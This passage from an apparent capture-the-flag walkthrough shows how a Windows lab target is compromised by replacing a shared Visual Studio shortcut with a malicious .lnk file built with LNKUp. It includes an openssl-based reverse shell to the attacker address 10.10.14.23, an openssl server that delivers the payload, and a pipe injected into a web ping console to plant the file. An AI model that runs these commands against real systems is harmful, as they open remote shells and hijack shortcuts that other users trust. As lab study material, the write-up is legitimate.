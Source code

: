 ~~~

There is no user.txt in C:\Users\alan\desktop.<br>
However, there is an interesting text file.

{% highlight shell %}
c:\windows\system32\inetsrv>type C:\users\alan\desktop\note-draft.txt
I've created a shortcut for VS on the Public Desktop to ensure we use the same version. Please delete any existing shortcuts and use this one instead.

- Alan

c:\windows\system32\inetsrv>dir C:\users\public\desktop\shortcuts
 Volume in drive C has no label.
 Volume Serial Number is FAD9-1FD5

 Directory of C:\users\public\desktop\shortcuts

03/10/2019  11:01 AM    <DIR>          .
03/10/2019  11:01 AM    <DIR>          ..
03/10/2019  11:02 AM             2,494 fw.txt
07/06/2018  02:28 PM             6,125 Visual Studio 2017.lnk
               2 File(s)          8,619 bytes
               2 Dir(s)  15,436,517,376 bytes free

{% endhighlight %}

To take advantage of this, create our payload to obtain other user shell.
We can use <a href="https://github.com/Plazmaz/LNKUp">LNKUp</a>.

{% highlight shell %}
root@kali:~/LNKUp# python generate.py --host localhost --type ntlm --out vs-mod.lnk --execute "C:\Progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.23:73|cmd.exe|C:\Progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.23:136"
\
  ~==================================================~
##                                                    ##
##  /$$       /$$   /$$ /$$   /$$ /$$   /$$           ##
## | $$      | $$$ | $$| $$  /$$/| $$  | $$           ##
## | $$      | $$$$| $$| $$ /$$/ | $$  | $$  /$$$$$$  ##
## | $$      | $$ $$ $$| $$$$$/  | $$  | $$ /$$__  $$ ##
## | $$      | $$  $$$$| $$  $$  | $$  | $$| $$  \ $$ ##
## | $$      | $$\  $$$| $$\  $$ | $$  | $$| $$  | $$ ##
## | $$$$$$$$| $$ \  $$| $$ \  $$|  $$$$$$/| $$$$$$$/ ##
## |________/|__/  \__/|__/  \__/ \______/ | $$____/  ##
##                                         | $$       ##
##                                         | $$       ##
##                                         |__/       ##
  ~==================================================~

File saved to /root/LNKUp/vs-mod.lnk
Link created at vs-mod.lnk with UNC path \\localhost\Share\3910.ico.
{% endhighlight %}

After that, run the ssl server again which serves vs-mod.lnk.<br>
This does not output any message in the console but don't worry.
{% highlight shell %}
root@kali:~# openssl s_server -quiet -key key.pem -cert cert.pem -port 136 < vs-mod.lnk
# then, run following payload to upload shell on web ping console
# 10.10.14.23 | "C:\Program Files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.14.23:136 > "C:\Users\Public\Desktop\Shortcuts\vs-mod.lnk"
{% endhighlight %}

After that, we can confirm we have vs-mod.lnk in /shortcuts.
~~~